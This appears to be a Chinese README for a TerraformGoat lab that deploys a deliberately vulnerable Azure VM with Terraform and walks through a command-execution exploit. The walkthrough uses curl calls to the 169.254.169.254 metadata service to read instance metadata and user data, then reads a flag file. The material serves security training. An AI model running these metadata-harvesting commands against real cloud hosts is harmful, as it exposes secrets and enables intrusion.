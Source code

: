 # Azure VM 命令执行漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建 Azure VM 命令执行漏洞环境的靶场。

使用 Terraform 构建环境后，用户可以通过命令执行漏洞获取到 VM 上的元数据、用户数据等信息。

## 环境搭建

在容器中执行以下命令

```shell
cd /TerraformGoat/azure/elastic_computing_service/vm_command_execution
```

通过 `az login` 命令进行 Azure 身份认证，根据提示进行认证即可。

```shell
az login
```

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

环境搭建完后，在 Outputs 处可以看到靶场的访问地址，打开浏览器访问即可

> 由于靶场搭建需要一定时间，因此如果浏览器访问不到，可以等待 1-2 分钟后再访问试试。

## 漏洞利用

在存在命令执行漏洞的 VM 上，我们可以利用命令执行获取 VM 的元数据、用户数据等信息。

读取元数据

```shell
curl -H Metadata:true http://169.254.169.254/metadata/instance?api-version=2021-05-01 | python -m json.tool
```

![img](../../../images/1652094112.png)

读取用户数据

> 前提是目标已经配置了用户数据

```shell
curl -H Metadata:true --noproxy "*" "http://169.254.169.254/metadata/instance/compute/userData?api-version=2021-01-01&format=text" | base64 --decode
```

![img](../../../images/1652094186.png)

在用户数据信息中，可以看到在靶场的根目录下有个 flag 文件，尝试利用命令执行读取这个文件

```shell
cat /flag69152201.txt
```

![img](../../../images/1652094243.png)

成功读取到 flag 文件

## 销毁环境

```shell
terraform destroy
```
